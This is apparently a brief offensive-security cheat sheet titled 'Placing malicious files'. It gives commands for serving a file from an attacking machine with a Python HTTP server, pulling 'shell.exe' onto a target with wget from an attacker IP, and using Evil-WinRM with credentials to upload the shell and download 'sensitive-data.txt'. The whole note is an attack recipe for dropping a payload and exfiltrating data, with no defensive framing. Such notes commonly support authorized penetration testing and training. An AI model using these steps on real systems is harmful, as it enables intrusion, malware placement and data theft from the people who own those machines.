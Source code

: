 # Placing malicious files 

## Python server
From the attacking device:
```sh
python3 -m http.server
```

From the target:
```sh
wget http://10.10.10.10:8000/shell.exe -O shell.exe
```

## Evil-WinRM
From the attacking device:
```sh
evil-winrm -i 10.10.10.11 -u MyUsername -p MyPassword
```

From the target:
```sh
upload shell.exe
download sensitive-data.txt
```
